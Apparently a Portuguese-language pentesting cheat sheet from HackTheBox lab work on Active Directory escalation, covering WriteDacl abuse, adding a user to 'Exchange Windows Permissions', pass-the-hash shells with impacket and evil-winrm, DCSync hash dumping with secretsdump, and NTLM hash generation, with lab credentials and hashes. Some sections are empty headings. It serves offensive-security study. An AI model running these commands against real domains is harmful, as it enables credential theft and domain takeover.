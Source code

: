## DCSync

Aqui temos algo relevante para a gente considerar em meio aos testes. São as más configurações de grupos de access list do AD. Falhas de permissionamento dde cada grupo no qual o usuário pelo qual comprometemos a máquina faz parte.

Mas nesse caso temos que olhar para, pelo menos, dois permissionamentos pertinentes pra gente escalar privilégio dentro do domínio, sendo elas:

    WriteDacl
    DCSync
 
No caso de WriteDacl, temos que considerar a alteração de privilégio que o usuário com essa permissão tem para fazer aos demais usuários, como na máquina [Forest](InfraHacking%2FCTFs%2FHackTheBox%2FForest.md).

Basicamente é adicionar um usuário ao domínio no grupo "Exchange Windows Permissions" com os seguintes comandos:

    net user /domain /add redteam R3dT3@m
    net group "Exchange Windows Permissions" /add redteam

Precisaremos do powerview para fazer essa alteração de privilégios, porém temos duas formas, então vamos lá:

### PowerView

### impacket-ntlmrelayx


## Try command execution

    impacket-psexec 'htb.local/Administrator@10.10.10.103' -hashes :f6b7160bfc91823792e0ac3a162c9267
    impacket-smbexec 'htb.local/Administrator@10.10.10.103' -hashes :f6b7160bfc91823792e0ac3a162c9267
    evil-winrm -i 10.10.10.103 -u Administrator -H f6b7160bfc91823792e0ac3a162c9267
    wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
    impacket-psexec HTB.LOCAL\amanda:Ashare1972@10.10.10.103
    impacket-smbexec HTB.LOCAL\amanda:Ashare1972@10.10.10.103
    evil-winrm -u amanda -p Ashare1972 -i 10.10.10.103

## Dump hashes (DCSync Privileges required)

    impacket-secretsdump 'EGOTISTICALBANK/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'


## Generate NTLM hash

    python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "Password".encode("utf-16le")).digest()))'
    #ou
    iconv -f ASCII -t UTF-16LE <(printf "Password") | openssl dgst -md4

